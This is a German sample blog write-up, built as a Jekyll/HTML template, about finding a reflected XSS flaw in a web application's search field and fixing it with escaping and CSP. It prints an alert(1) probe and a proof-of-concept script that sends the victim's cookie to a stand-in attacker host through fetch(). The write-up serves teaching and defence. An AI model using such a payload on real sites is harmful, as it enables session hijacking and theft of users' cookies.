 layout: default title: Beispiel-Write-up - XSS-Schwachstelle in einer Webanwendung date: 2023-10-27 10:00:00 +0100 categories: [Web-Sicherheit] tags: [XSS, Webapp, Penetration-Test] description: Eine detaillierte Analyse, wie ich eine Reflected XSS-Schwachstelle in einer modernen Webanwendung identifiziert und ausgenutzt habe.
<article class="prose mx-auto my-12">
<h1>{{ page.title }}</h1>
<p>Veröffentlicht am {{ page.date | date: "%d. %B %Y" }} in {% for category in page.categories %}<span class="text-accent">{{ category }}</span>{% unless forloop.last %}, {% endunless %}{% endfor %}</p>

<p>In diesem Write-up analysiere ich eine Reflected Cross-Site Scripting (XSS)-Schwachstelle, die ich in der Suchfunktion einer Ziel-Webanwendung entdeckt habe. Diese Schwachstelle ermöglichte es, bösartigen JavaScript-Code im Browser eines Benutzers auszuführen, nachdem dieser auf einen speziell präparierten Link geklickt hatte.</p>

<h2>1. Erkundung und Schwachstellen-Identifizierung</h2>
<p>Der erste Schritt war die Untersuchung der Webanwendung. Ich habe mich auf die Suchleiste konzentriert, da sie häufig eine Quelle für XSS-Schwachstellen ist. Ich habe die Zeichenkette <code>&lt;script&gt;alert(1)&lt;/script&gt;</code> in die Suchleiste eingegeben und die URL beobachtet. Die Ausgabe wurde im HTML-Code der resultierenden Seite unzensiert reflektiert, was ein klares Anzeichen für eine Schwachstelle war.</p>

<figure class="my-8 text-center">
    
    <figcaption class="text-sm text-gray-400 mt-2">Darstellung einer erfolgreichen XSS-Exploit-Kette.</figcaption>
</figure>

<h2>2. Ausnutzung und Proof-of-Concept</h2>
<p>Nachdem die Schwachstelle bestätigt wurde, entwickelte ich einen Proof-of-Concept (PoC)-Code. Dieser PoC diente dazu, die Auswirkungen der Schwachstelle zu demonstrieren, ohne Schaden anzurichten. Ich erstellte einen Link, der bei Anklicken ein Cookie des Opfers stahl und es an einen von mir kontrollierten Server sendete:</p>

<pre><code>
&lt;script&gt;
    fetch('https://angreifer.com/?cookie=' + document.cookie);
&lt;/script&gt;
</code></pre>

<p>Dieser PoC bewies, dass die Schwachstelle nicht nur theoretisch war, sondern auch für die Übernahme von Benutzer-Sessions genutzt werden konnte.</p>

<h2>3. Risikobewertung und Empfehlungen</h2>
<p>XSS-Schwachstellen werden in der Regel als kritisch eingestuft, da sie zu Session-Hijacking, Phishing und der Manipulation von Inhalten führen können. Ich habe die folgenden Empfehlungen zur Behebung der Schwachstelle vorgeschlagen:</p>
<ul>
    <li>Implementierung einer korrekten Eingabevalidierung auf der Serverseite.</li>
    <li>Verwendung von Context-Aware-Escaping für alle Benutzereingaben, um zu verhindern, dass sie als HTML interpretiert werden.</li>
    <li>Aktivierung einer Content Security Policy (CSP), um das Ausführen von Inline-Skripten zu blockieren.</li>
</ul>

<p>Dieser Write-up zeigt, wie eine sorgfältige manuelle Untersuchung in Kombination mit automatisierten Tools zur Entdeckung kritischer Schwachstellen führen kann. Das Beheben solcher Fehler ist entscheidend für die Sicherheit jeder Webanwendung.</p>

</article>
